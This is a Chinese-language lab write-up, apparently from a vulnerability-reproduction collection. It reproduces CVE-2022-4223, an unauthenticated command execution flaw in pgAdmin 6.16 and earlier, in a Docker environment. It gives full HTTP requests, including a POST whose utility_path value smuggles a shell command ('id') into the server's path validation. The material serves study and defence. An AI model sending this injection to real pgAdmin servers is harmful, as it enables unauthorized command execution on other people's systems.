

# pgAdmin <= 6.16 无授权远程命令执行漏洞（CVE-2022-4223）

pgAdmin是一个著名的PostgreSQL数据库管理平台。

pgAdmin包含一个HTTP API可以用来让用户选择并验证额外的PostgreSQL套件，比如pg_dump和pg_restore。但在其6.16版本及以前，对于用户传入的路径没有做合适的验证，导致未授权的用户可以在目标服务器上执行任意命令。

参考链接：

- <https://github.com/pgadmin-org/pgadmin4/commit/799b6d8f7c10e920c9e67c2c18d381d6320ca604>
- <https://github.com/pgadmin-org/pgadmin4/commit/461849c2763e680ed2296bb8a753ca7aef546595>
- <https://github.com/advisories/GHSA-3v6v-2x6p-32mc>

## 漏洞环境

执行如下命令启动一个pgAdmin 6.16服务器：

```
docker compose up -d
```

服务器启动后，访问`http://your-ip:5050`即可查看到pgAdmin默认的登录页面。

## 漏洞复现

在复现漏洞前，需要发送如下数据包获取CSRF token：

```
GET /login HTTP/1.1
Host: your-ip:5050
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close


```

在返回包中拿到一个新的session id和csrf token：


然后，将获取到的session id和csrf token填写进下面的数据包并发送：

```
POST /misc/validate_binary_path HTTP/1.1
Host: your-ip:5050
Content-Length: 27
X-pgA-CSRFToken: [csrf-token]
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: pga4_session=[session-id]
Connection: close

{"utility_path":"a\";id;#"}
```

可见，`id`命令已经被成功执行：


